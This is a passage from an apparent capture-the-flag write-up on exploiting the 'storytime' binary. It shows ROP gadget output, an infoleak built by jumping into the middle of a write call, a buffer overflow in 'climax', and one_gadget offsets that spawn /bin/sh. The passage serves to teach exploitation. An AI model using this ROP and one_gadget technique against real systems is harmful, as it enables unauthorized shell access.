 ```
$    python ROPgadget.py --binary storytime | grep rsi
0x0000000000400701 : pop rsi ; pop r15 ; ret
```

For the last register (the `1` in `rdi`) I settled this with where we jumped back to. Instead of calling `write`, I just jumped to `0x400601` which is in the middle of the `end` function:
```

void end(void)

{
  write(1,"The End!\n",0x28);
  return;
}
```

Specifically the instruction we jump back to will mov `0x1` into the `edi` register then call `write`, which will give us our infoleak:
```
        00400606 e8 95 fe        CALL       write                                            ssize_t write(int __fd, void * _
                 ff ff
        0040060b 90              NOP
        0040060c 5d              POP        RBP
        0040060d c3              RET
```

Then it will return and continue on with our rop chain. However before it does that, it will pop a value off of our chain into the `rbp` register so we will need to include a filler 8 byte qword in our rop chain at that point. For where to jump to, I choose `0x40060e`, since it is the beginning of the `climax` function which gives us a buffer overflow where we can overwrite the return address with a onegadget and pop a shell.

```
void climax(void)

{
  undefined local_38 [48];
 
  read(0,local_38,4000);
  return;
}
```

Also to find the onegadget, we can just use the onegadget finder like this to find the offset from the base of libc. To choose which one to use, I normally just guess and check instead of checking the conditions at runtime (I find it a bit faster):

```
$    one_gadget libc.so.6
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
